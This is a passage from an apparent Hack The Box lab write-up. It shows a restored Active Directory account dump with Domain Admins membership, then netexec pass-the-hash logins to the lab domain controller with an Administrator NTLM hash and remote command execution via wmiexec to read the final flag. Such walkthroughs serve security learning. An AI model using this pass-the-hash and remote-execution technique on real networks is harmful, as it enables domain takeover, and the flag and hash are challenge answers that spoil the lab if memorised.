abca979d011902000c04fc2d4cf14cc28483714bc459b07ad6f015e5f280102000000000005200000002a02000005123c00100000000300000040c20abca979d011902000c04fc2d4cfba7a96bfe60dd011a28500aa003049e20102000000000005200000002a020000051a3c001000000003000000422fba59a279d011902000c04fc2d3cf14cc28483714bc459b07ad6f015e5f280102000000000005200000002a02000005123c001000000003000000422fba59a279d011902000c04fc2d3cfba7a96bfe60dd011a28500aa003049e20102000000000005200000002a020000051a3c001000000003000000f8887003e10ad211b42200a0c968f93914cc28483714bc459b07ad6f015e5f280102000000000005200000002a02000005123c001000000003000000f8887003e10ad211b42200a0c968f939ba7a96bfe60dd011a28500aa003049e20102000000000005200000002a0200000512380030000000010000000fd6475b9060b2409f372a4de88f30630105000000000005150000001bdbfd6381ba83c9e670420b0e0200000512380030000000010000000fd6475b9060b2409f372a4de88f30630105000000000005150000001bdbfd6381ba83c9e670420b0f020000051a38000800000003000000a66d029b3c0d5c468bee5199d7165cba867a96bfe60dd011a28500aa003049e2010100000000000300000000051a38000800000003000000a66d029b3c0d5c468bee5199d7165cba867a96bfe60dd011a28500aa003049e201010000000000050a000000051a380010000000030000006d9ec6b7c72cd211854e00a0c983f608867a96bfe60dd011a28500aa003049e2010100000000000509000000051a380010000000030000006d9ec6b7c72cd211854e00a0c983f6089c7a96bfe60dd011a28500aa003049e20101000000000005090000000512380010000000030000006d9ec6b7c72cd211854e00a0c983f608ba7a96bfe60dd011a28500aa003049e2010100000000000509000000051a38002000000003000000937b1bea485ed546bc6c4df4fda78a35867a96bfe60dd011a28500aa003049e201010000000000050a000000051a2c00940002000200000014cc28483714bc459b07ad6f015e5f280102000000000005200000002a020000051a2c0094000200020000009c7a96bfe60dd011a28500aa003049e20102000000000005200000002a02000005122c009400020002000000ba7a96bfe60dd011a28500aa003049e20102000000000005200000002a020000051328003000000001000000e5c3783f9af7bd46a0b89d18116ddc7901010000000000050a000000051228003001000001000000de47e6916fd9704b9557d63ff4f3ccd801010000000000050a00000000122400ff010f000105000000000005150000001bdbfd6381ba83c9e670420b0702000000121800040000000102000000000005200000002a02000000121800bd010f00010200000000000520000000200200000105000000000005150000001bdbfd6381ba83c9e670420b000200000105000000000005150000001bdbfd6381ba83c9e670420b00020000",
  "objectGUID": "b3677467-615b-4d83-8702-66afb16ec370",
  "lastKnownParent": 2050,
  "msDS-LastKnownRDN": "zax",
  "memberOf": [
    "__DEACTIVE-13386713984__CN=Domain Admins,CN=Users,DC=wanderer,DC=htb"
  ]
}

```

Now his password hash is same as the Admin one:

```bash
netexec smb 172.16.0.5 -u Administrator -H 67b1d562480d71a916d4d73072b1a91e             
SMB         172.16.0.5      445    WANDERER-DC01    [*] Windows Server 2022 Build 20348 x64 (name:WANDERER-DC01) (domain:wanderer.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         172.16.0.5      445    WANDERER-DC01    [+] wanderer.htb\Administrator:67b1d562480d71a916d4d73072b1a91e (Pwn3d!)

```

Which allows me to grab the last flag and finish this challenge.

```bash
─$ netexec smb 172.16.0.5 -u Administrator -H 67b1d562480d71a916d4d73072b1a91e -X 'cat C:\Users\Administrator\Desktop\flag.txt'
SMB         172.16.0.5      445    WANDERER-DC01    [*] Windows Server 2022 Build 20348 x64 (name:WANDERER-DC01) (domain:wanderer.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         172.16.0.5      445    WANDERER-DC01    [+] wanderer.htb\Administrator:67b1d562480d71a916d4d73072b1a91e (Pwn3d!)
SMB         172.16.0.5      445    WANDERER-DC01    [+] Executed command via wmiexec
SMB         172.16.0.5      445    WANDERER-DC01    #< CLIXML
SMB         172.16.0.5      445    WANDERER-DC01    HTB{915302b83c85dc54d6a7a9009992f745}
SMB         172.16.0.5      445    WANDERER-DC01    <Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04"><Obj S="progress" RefId="0"><TN RefId="0"><T>System.Management.Automation.PSCustomObject</T><T>System.Object</T></TN><MS><I64 N="SourceId">1</I64><PR N="Record"><AV>Preparing modules for first use.</AV><AI>0</AI><Nil /><PI>-1</PI><PC>-1</PC><T>Completed</T><SR>-1</SR><SD> </SD></PR></MS></Obj></Objs>

```

&nbsp;